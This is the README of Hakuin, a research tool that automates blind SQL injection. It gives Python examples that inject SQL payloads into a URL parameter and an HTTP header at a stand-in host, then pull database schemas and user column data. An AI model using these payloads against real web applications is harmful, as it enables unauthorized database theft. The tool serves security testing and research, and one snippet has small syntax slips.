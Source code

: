 <p align="center">
    <img width="150" src="https://raw.githubusercontent.com/pruzko/hakuin/main/logo.png">
</p>

Hakuin is a Blind SQL Injection (BSQLI) inference optimization and automation framework written in Python 3. It abstract away the inference logic and allows users to easily and efficiently extract textual data in databases (DB) from vulnerable web applications. To speed up the process, Hakuin uses pre-trained language models for DB schemas and adaptive language models in combination with opportunistic string guessing for DB content.

Our work has been presented at academic and industrial conferences:
- [IEEE Workshop on Offsensive Technology (WOOT)](https://wootconference.org/), 2023
- [Hack in the Box, Phuket](https://conference.hitb.org/hitbsecconf2023hkt/session/hakuin-injecting-brains-into-blind-sql-injection/), 2023



## Installation
To install Hakuin, simply run:
```
git clone git@github.com:pruzko/hakuin.git
cd hakuin
pip install .
```
Developers should set the `-e` flag to install the framework in editable mode:
```bash
pip install -e .
```


## Examples
Once you identify a BSQLI vulnerability, you need to tell Hakuin how to inject its queries. To do this, derive a class from the `Requester` and override the `request` method. Also, the method must determine whether the query resolved to `True` or `False`.


##### Example 1 - Query Parameter Injection with Status-based Inference
```python
import requests
from hakuin import Requester

class StatusRequester(Requester):
    def request(self, ctx, query):
        r = requests.get(f'http://vuln.com/?n=XXX" OR ({query}) --')
        return r.status_code == 200
```

##### Example 2 - Header Injection with Content-based Inference
```python
class ContentRequester(Requester):
    def request(self, ctx, query):
        headers = {'vulnerable-header': f'xxx" OR ({query}) --'}
        r = requests.get(f'http://vuln.com/', headers=headers)
        return 'found' in r.content.decode()
```

To start infering data, use the `Exfiltrator` class. It requires a `DBMS` object to contruct queries and a `Requester` object to inject them. Currently, Hakuin supports SQLite and MySQL DBMSs, but will soon include more options. If you wish to support another DBMS, implement the `DBMS` interface defined in `hakuin/dbms/DBMS.py`.

##### Example 1 - Inferring SQLite DBs
```python
from hakuin.dbms import SQLite
from hakuin import Exfiltrator, Requester

class StatusRequester(Requester):
    ...

exf = Exfiltrator(requester=StatusRequester(), dbms=SQLite())
```

##### Example 2 - Inferring MySQL DBs
```python
from hakuin.dbms import MySQL
...
exf = Exfiltrator(requester=StatusRequester(), dbms=MySQL())
```

Now that eveything is set, you can start inferring DB schemas.

##### Example 1 - Inferring DB Schemas
```python
# mode:
#   'binary_search':    Use binary search
#   'model_search':     Use pre-trained models
schema = exf.exfiltrate_schema(mode='model_search')
```

##### Example 2 - Inferring DB Schemas with Metadata
```python
# metadata:
#   True:   Detect column settings (data type, nullable, primary key)
#   False:  Pass
schema = exf.exfiltrate_schema(mode='model_search', metadata=True)
```

##### Example 3 - Inferring only Table/Column Names
```python
tables = exf.exfiltrate_tables(mode='model_search')
columns = exf.exfiltrate_columns(table='users', mode='model_search')
```

Once you know the schema, you can extract the actual content.

##### Example 1 - Inferring Textual Columns
```python
# mode:
#   'binary_search':    Use binary search
#   'adaptive_search':  Use five-gram model
#   'unigram_search':   Use unigram model
#   'dynamic_search':   Dynamically identify the best strategy. This setting
#                       also enables opportunistic guessing.
res = exfiltrate_text_data(table='users', column='address', mode='dynamic_search'):
```

More examples can be found in the `tests` directory.



## For Researchers
This repository is maintained to fit the needs of security practitioners. Researchers looking to reproduce the experiments described in our paper should install the [frozen version](https://zenodo.org/record/7804243) as it contains the original code, experiment scripts, and an instruction manual for reproducing the results.


#### Cite Hakuin
```
@inproceedings{hakuin_bsqli,
  title={Hakuin: Optimizing Blind SQL Injection with Probabilistic Language Models},
  author={Pru{\v{z}}inec, Jakub and Nguyen, Quynh Anh},
  booktitle={2023 IEEE Security and Privacy Workshops (SPW)},
  pages={384--393},
  year={2023},
  organization={IEEE}
}
```
